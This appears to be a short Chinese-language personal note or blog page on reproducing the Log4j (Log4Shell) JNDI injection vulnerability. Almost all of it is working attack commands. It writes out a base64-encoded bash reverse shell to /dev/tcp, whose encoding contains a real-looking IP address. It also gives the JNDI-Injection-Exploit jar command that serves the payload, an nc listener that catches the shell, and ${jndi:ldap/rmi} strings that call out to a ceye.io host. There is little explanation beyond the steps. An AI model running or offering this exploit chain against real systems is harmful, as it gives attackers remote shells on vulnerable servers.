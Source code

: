 ```yaml
---
title: log4j复现
id: log4j复现
sidebar_position: 8
---
```


<!-- more -->



[Release JNDI-Injection-Exploit v1.0 · welk1n/JNDI-Injection-Exploit (github.com)](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)

这个payload很神奇，是看小迪迦[有道云笔记 (youdao.com)](https://note.youdao.com/ynoteshare/index.html?id=395d89aaf7069c08a59de7c2e9265d24&type=note&_time=1639622219489)复现的，重点在于构造反弹shell

base64编码可以避免一些传参问题

```sh
echo -n "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1312 0>&1" | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTcuNDAvMTMxMiAwPiYx
```

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,上面那串base64编码}|{base64,-d}|{bash,-i}" -A xxx.xxx.xxx.xxx
```

![](https://s2.loli.net/2021/12/16/MI4RPoADCiKy9Qv.png)

然后另外一边再开个nc

```
nc -lvvp 1312
```

可以看到成功弹过来了

![](https://s2.loli.net/2021/12/16/CM8SZN5kwLHpvAU.png)

```
${jndi:ldap://xxx.ceye.io/a}
${jndi:rmi://xxx.ceye.io/a}
```

